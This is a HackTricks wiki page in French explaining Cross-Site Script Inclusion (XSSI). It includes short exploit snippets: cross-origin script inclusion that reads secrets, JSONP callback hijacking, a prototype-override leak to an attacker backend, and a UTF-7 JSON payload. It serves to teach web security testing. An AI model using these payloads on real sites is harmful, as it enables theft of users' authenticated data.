# XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** est une vulnérabilité qui découle de la nature de la balise `script` en HTML. Contrairement à la plupart des ressources, qui sont soumises à la **Same-Origin Policy (SOP)**, les scripts peuvent être inclus depuis différents domaines. Ce comportement est destiné à faciliter l'utilisation de bibliothèques et d'autres ressources hébergées sur différents serveurs, mais introduit également un risque potentiel pour la sécurité.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Les scripts sont exemptés de la **Same-Origin Policy**, leur permettant d'être inclus à travers des domaines.
- **Data Exposure**: Un attaquant peut exploiter ce comportement pour lire des données chargées via la balise `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** est particulièrement pertinent pour le JavaScript dynamique ou **JSON with Padding (JSONP)**. Ces technologies utilisent souvent des informations "d'autorité ambiante" (comme les cookies) pour l'authentification. Lorsqu'une requête de script est faite vers un hôte différent, ces informations d'identification (par exemple, les cookies) sont automatiquement incluses dans la requête.
- **Authentication Token Leakage**: Si un attaquant peut tromper le navigateur d'un utilisateur pour qu'il demande un script depuis un serveur qu'il contrôle, il pourrait être en mesure d'accéder à des informations sensibles contenues dans ces requêtes.

### Types

1. **Static JavaScript** - Cela représente la forme conventionnelle de XSSI.
2. **Static JavaScript with Authentication** - Ce type est distinct car il nécessite une authentification pour y accéder.
3. **Dynamic JavaScript** - Implique du JavaScript qui génère dynamiquement du contenu.
4. **Non-JavaScript** - Fait référence aux vulnérabilités qui n'impliquent pas directement JavaScript.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
Dans cette approche, des informations privées sont intégrées dans un fichier JavaScript accessible globalement. Les attaquants peuvent identifier ces fichiers en utilisant des méthodes telles que la lecture de fichiers, des recherches par mots-clés ou des expressions régulières. Une fois localisé, le script contenant des informations privées peut être inclus dans un contenu malveillant, permettant un accès non autorisé à des données sensibles. Une technique d'exploitation d'exemple est montrée ci-dessous :
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI et Authenticated-JavaScript-XSSI
Ces types d'attaques XSSI impliquent que des informations confidentielles soient ajoutées dynamiquement au script en réponse à une demande de l'utilisateur. La détection peut être effectuée en envoyant des requêtes avec et sans cookies et en comparant les réponses. Si les informations diffèrent, cela peut indiquer la présence d'informations confidentielles. Ce processus peut être automatisé à l'aide d'outils comme l'extension Burp [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

Si des données confidentielles sont stockées dans une variable globale, elles peuvent être exploitées en utilisant des méthodes similaires à celles utilisées dans le XSSI régulier. Cependant, si les données confidentielles sont incluses dans une réponse JSONP, les attaquants peuvent détourner la fonction de rappel pour récupérer les informations. Cela peut être fait en manipulant des objets globaux ou en configurant une fonction à exécuter par la réponse JSONP, comme démontré ci-dessous :
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Pour les variables ne résidant pas dans l'espace de noms global, *prototype tampering* peut parfois être exploité. Cette technique tire parti de la conception de JavaScript, où l'interprétation du code implique de parcourir la chaîne de prototypes pour localiser la propriété appelée. En remplaçant certaines fonctions, comme `Array`'s `slice`, les attaquants peuvent accéder et leak des variables non globales :
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Des détails supplémentaires sur les vecteurs d'attaque peuvent être trouvés dans le travail du chercheur en sécurité [Sebastian Lekies](https://twitter.com/slekies), qui maintient une liste de [vecteurs](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
La recherche de Takeshi Terada introduit une autre forme de XSSI, où des fichiers Non-Script, tels que CSV, sont divulgués entre origines en étant inclus comme sources dans une balise `script`. Des exemples historiques de XSSI, tels que l'attaque de Jeremiah Grossman en 2006 pour lire un carnet d'adresses Google complet et la fuite de données JSON de Joe Walker en 2007, soulignent la gravité de ces menaces. De plus, Gareth Heyes décrit une variante d'attaque impliquant du JSON encodé en UTF-7 pour échapper au format JSON et exécuter des scripts, efficace dans certains navigateurs :
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
